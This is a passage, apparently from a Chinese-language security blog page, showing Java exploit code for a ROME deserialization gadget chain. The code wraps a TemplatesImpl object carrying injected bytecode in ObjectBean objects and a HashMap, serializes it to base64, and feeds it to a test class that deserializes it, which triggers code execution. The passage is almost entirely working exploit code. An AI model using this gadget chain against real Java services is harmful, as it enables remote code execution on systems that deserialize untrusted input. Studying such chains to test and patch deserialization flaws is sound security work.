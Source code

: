 ```
        byte[][] bytes1 = new byte[][]{bytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes1);
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates, "_class", null);

        ObjectBean objectBean1 = new ObjectBean(Templates.class,templates);
        ObjectBean objectBean2 = new ObjectBean(Object.class,objectBean1);

        HashMap hashMap = new HashMap();
        hashMap.put(objectBean2,"DawnT0wn");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        Base64.Encoder base = Base64.getEncoder();
        System.out.println(base.encodeToString(byteArrayOutputStream.toByteArray()));

    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

输出的base64放到下面exp中

```
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.Base64;

public class TestRome {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        String base64_exp = "base64";
        byte[] exp = Base64.getDecoder().decode(base64_exp);
        ByteArrayInputStream bytes = new ByteArrayInputStream(exp);
        ObjectInputStream objectInputStream = new ObjectInputStream(bytes);
        objectInputStream.readObject();
    }
}
```
